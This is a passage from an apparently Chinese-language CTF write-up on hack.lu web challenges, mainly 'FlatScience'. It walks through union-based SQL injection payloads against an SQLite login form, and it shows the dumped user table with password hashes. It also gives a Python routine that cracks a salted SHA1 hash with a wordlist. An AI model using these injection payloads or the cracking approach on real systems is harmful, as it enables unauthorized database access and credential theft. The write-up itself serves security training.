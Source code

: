 ```

```

那么，我们就可以依次回显获得数据。接下来，我们可以利用sqlite3的特性，获得数据。

```
usr=111' union select 1,name FROM sqlite_master WHERE type='table' limit 0,1 --+&pw=flux

获得表信息，得到信息：只有一个表 Users

获得所有表结构：
usr=111' union select 1,sql FROM sqlite_master WHERE type='table' limit 0,1 --+&pw=flux

表结构如下：
 CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```

最终，表内容如下：

| id   | Name   | password                                 | hint                        |
| ---- | ------ | ---------------------------------------- | --------------------------- |
| 1    | admin  | 3fab54a50e770d830c0416df817567662a9dc85c | my+fav+word+in+my+fav+paper |
| 2    | fritze | 54eae8935c90f467427f05e4ece82cf569f89507 | my+love+is…?                |
| 3    | hansi  | 34b0bb7c304949f9ff2fc101eef0f048be10d3bd | the+password+is+password    |

会发现cmd5能够解开2，3的sha1，而1的sha1无法解开。利用hint，对网站上所有的paper进行分析。导入paper中的所有单词，进行哈希爆破。

```python
def test(s):
	salt = 'Salz!'
	a = s+salt
	sha = hashlib.sha1(a).hexdigest()
	# print sha
	flag = '3fab54a50e770d830c0416df817567662a9dc85c'
	# print flag
	if flag==sha:
		print s
		return  True
	else:
		return False
```

获得密码，**ThinJerboa**

登录，得到flag

![flatscience](https://momomoxiaoxi.com/img/post/hacklu/flatscience.png)



## Triangle 

一个Web逆向题，没看。学长说是，Unicorn.js模拟的arm binary。





## 总结：

以前一直听说hacklu的CTF题目质量很高，但参加这次下来，感觉Web题目一般，没什么特别新的思路，还加了一些杂项的技巧，不知道其他类型的题目怎么样。